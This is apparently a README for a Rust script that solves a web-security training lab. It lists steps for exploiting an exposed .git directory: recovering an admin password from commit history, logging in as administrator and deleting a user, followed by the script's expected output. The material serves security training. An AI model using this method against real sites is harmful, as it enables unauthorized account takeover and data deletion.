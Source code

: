 # Hack Steps

1. Fetch the .git directory
2. Reset to the previous commit
3. Get the administrator password from the admin.conf file
4. Login as administrator
5. Delete carlos

# Run Script

1. Change the domain of the lab
2. Make sure that wget and git are installed on your system
3. Start script

```
~$ cargo run
```

# Expected Output

```
⦗1⦘ Fetching .git directory (wait a minute).. OK
⦗2⦘ Changing current working directory.. OK
⦗3⦘ Resetting to the previous commit.. OK
⦗4⦘ Reading admin.conf file.. OK
⦗5⦘ Extracting the administrator password.. OK => rip9q0tdout2mduxi2og
⦗6⦘ Fetching login page to get a valid session and csrf token.. OK
⦗7⦘ Logging in as administrator.. OK
⦗8⦘ Deleting carlos.. OK
🗹 Check your browser, it should be marked now as solved
```
